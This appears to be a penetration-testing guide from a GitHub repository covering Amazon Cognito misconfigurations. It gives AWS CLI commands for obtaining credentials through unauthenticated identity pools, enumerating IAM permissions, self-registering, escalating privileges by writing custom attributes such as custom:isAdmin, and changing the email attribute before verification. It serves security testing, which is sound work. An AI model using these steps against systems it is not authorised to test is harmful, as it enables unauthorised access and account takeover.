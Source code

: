 Credit: Yassine Aboukir @yassineboukir


# Amazon Cognito Security Misconfiguration

## Introduction
Amazon Cognito, you can add user sign-up and sign-in features and control access to your web and mobile application. Amazon Cognito provides an identity store that scales to millions of users, supports social and enterprise identity federation and offers advanced security features to protect your consumers and  business.
Amazon Cognito makes it easier for you to manage user identities, authentication, and permission.
It consists of two main components:
* User Pools: allow sign-in and sign-up functionality
* Identity Pools: allow authenticated and unauthenticated users to access AWS resources using temporary AWS credentials.


#### API calls to User pool
```
https://cognito-idp.us-west-2.amazonaws.com
```

#### API calls to Identity pool
```
https://cognito-identity.us-west-2.amazonaws.com
```


# Security Misconfiguration
## 1 Unauthorized access to AWS services due to Liberal AWS Credentails.
* Try to fetch temporary AWS credentails using unauthenticated user 
To generate the AWS credentaisls, we need to find ` Identity Pool ID ` which is usually hardcoded in the source code, in a bundled JS file or in HTTP response. Other useful information that you can find:
	* Client ID
	* User Pool ID
	* Region

![image](https://user-images.githubusercontent.com/88592872/211176003-f3a443e0-b3ba-445c-a729-7a3dc64278a4.png)


Next step is to use the Pool Identity ID to generate an Identity ID. User AWS-Cli tool [https://aws.amazon.com/cli/](https://aws.amazon.com/cli/)


#### Command
```
aws cognito-identity get-id --identity-pool-id <identity-pool-id> --region <region>
```

#### Example Command
```
aws cognito-identity get-id --identity-pool-id "us-east-1:b37a7b57-6412-467f-8854-2be137e33871" --region us-east-1

```


Copy the identity-id from the response and use it in the next command.

#### Command
```
aws cognito-identity get-credentials-for-identity --identity-id <identity-id> --region <region>
```

Now we can enumerate permissions associated with these credentials using a tools such as:
* Enumreate-iam: [https://github.com/andresriancho/enumerate-iam](https://github.com/andresriancho/enumerate-iam)
* Scout Suite: [https://github.com/nccgroup/ScoutSuite](https://github.com/nccgroup/ScoutSuite)


#### Command
```
./enumerate-iam.py --access-key <AccessKeyID> --secret-key <SecreetKey> --session-token <SessionToken>
```

## 2. Authentication bypass due to enabled SignUp API action

Self-registration enabled by default when creating a new user pool.
We only need the client ID and region to test against the self-registration

#### Command
```
aws cognito-idp sign-up --client-id <client-id> --username <email-address> --password <password> --region <region>
```

In case of a successful self-registration, a 6 digits confirmation code will be delivered to the attacker's email address 
You'll need to confirm the account next

#### Command
```
aws cognito-idp confirm-sign-up --client-id <client-id> --username <email-address> --confirmation-code <confirmation-code> --region <region>
```

Sometimes you might successfully be able to sign up and register an account but it doesn't have any user group assigned. However, you will be able to obtain temporary AWS credentials which you can test against liberal permissions as we explained earlier.

## 3: Privilege escalation through writable user attributes
 
Attributes are pieces of information that help you identify individual users, such as name, email address and phone number. A new user pool has a set of default standard attributes.
You can also add custom attributes to your user pool definition in the AWS management console.
 
Unless set as readable only, the new custom attribute permission is writable by default which allows the user to update its value.
 
 * Fetching user attributes
In order to test against this misconfiguration, you need to be authenticated then we'll fetch the available user attributes using the generated access token.
 
#### Command
```
aws cognito-idp get-user --region <region> --access-token <access-token>
```


Look out for custom attributes such as:
```
custom:isAdmin
custom:userRole
custom:isActive
custom:isApproved
custom:access
```

* Updating user attributes

#### Command
```
aws cognito-idp update-user-attributes --access-token <access-token> --region <region> --user-attributes Name="<attribute-name>",Value="<new-value>"
```

## 4 Updating email attribute before verification
 
There are scenarios where the user isn't allowed to update their email address due to both client and server-side security controls. However, by leveraging Cognito API, it might also be possible to bypass this restriction.
 
 
#### Command
```
aws cognito-idp update-user-attributes --access-token <access-token> --region <region> --user-attributes Name="<email>",Value="<new-email-address>"
```
